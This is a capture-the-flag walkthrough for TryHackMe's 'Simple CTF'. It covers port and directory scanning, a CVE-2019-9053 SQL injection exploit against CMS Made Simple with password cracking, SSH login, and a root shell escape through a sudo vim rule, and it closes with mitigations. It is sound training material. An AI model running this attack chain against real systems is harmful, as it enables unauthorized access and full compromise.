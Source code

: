 # 🟩Simple CTF – Try Hack Me (THM) Walkthrough Report

**Prepared by:** Nishanth Antony  
**Date:** August 17, 2025  
**Difficulty:**  Easy  
**Category:** Web Exploitation / Privilege Escalation  
**Platform:** [TryHackMe](https://tryhackme.com)  

---

## 🔍 1. Reconnaissance

**Objective:** Identify open ports, running services, and potential entry points.

### Nmap Scan

```bash
nmap -p- --min-rate=1000 -sV <target_ip> -T4
```

**Result:**

```
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
```

➡️ **Observation:** FTP, HTTP, and SSH (non-standard port `2222`) are open.

---

## 🌐 2. Web Enumeration

### Directory Scan

```bash
gobuster dir -u http://<target_ip>/ -w /usr/share/wordlists/dirb/common.txt
```

**Key Findings:**

```
/index.html  (200 OK)
/robots.txt  (200 OK)
/simple/     (301 Redirect → http://<target_ip>/simple/)
```

➡️ `/simple/` reveals a **CMS Made Simple 2.2.8** instance.

### Vulnerability Research

```bash
searchsploit -s "cms made simple 2.2"
```

**Finding:**

* **CVE-2019-9053** → SQL Injection vulnerability in versions `<2.2.10`.

---

## 💥 3. Exploitation

### Step 1 – SQL Injection Exploit

```bash
python3 46635-py3.py -u http://<target_ip>/simple/ --crack \
  -w /usr/share/wordlists/passwords/rockyou.txt
```

**Result:**

```
[+] Username: mitch
[+] Email: admin@admin.com
[+] Password cracked: secret
```

🔑 Credentials obtained:

* **User:** mitch
* **Password:** secret

---

### Step 2 – SSH Access

```bash
ssh mitch@<target_ip> -p 2222
```

**Proof:**

```bash
$ cat user.txt
G00d j0b, keep up!
```

---

## 🚀 4. Privilege Escalation

### Sudo Permissions

```bash
sudo -l
```

**Result:**

```
(root) NOPASSWD: /usr/bin/vim
```

### Root Shell via VIM

```bash
sudo vim -c ':!/bin/bash'
```

**Proof:**

```bash
# cat /root/root.txt
W3ll d0n3. You made it!
```

---

## 🛡️ 5. Mitigation Recommendations

* **Web Security:** Patch CMS Made Simple >2.2.10, sanitize all input, and restrict sensitive files (`robots.txt`).
* **Passwords:** Use strong, non-dictionary passwords and secure hashing (bcrypt/argon2).
* **System Hardening:** Remove dangerous `NOPASSWD` sudo rules (especially for editors like vim).
* **Monitoring:** Enable intrusion detection, monitor brute-force attempts, and audit privilege escalations.

---

## 📚 6. Lessons Learned

* Outdated CMS platforms pose critical risks.
* SQL injection can expose entire credential databases.
* Misconfigured `sudo` rules can quickly lead to root.
* Small oversights (e.g., weak hashing + bad sudo configs) compound into full compromise.

---

**Skills Demonstrated**

* Network & Web Enumeration → `nmap`, `gobuster`
* SQL Injection Exploitation → CVE-2019-9053, hash cracking (`john`)
* Post-Exploitation → SSH login, privilege escalation
* Secure Documentation → Structured reporting with PoC evidence

---

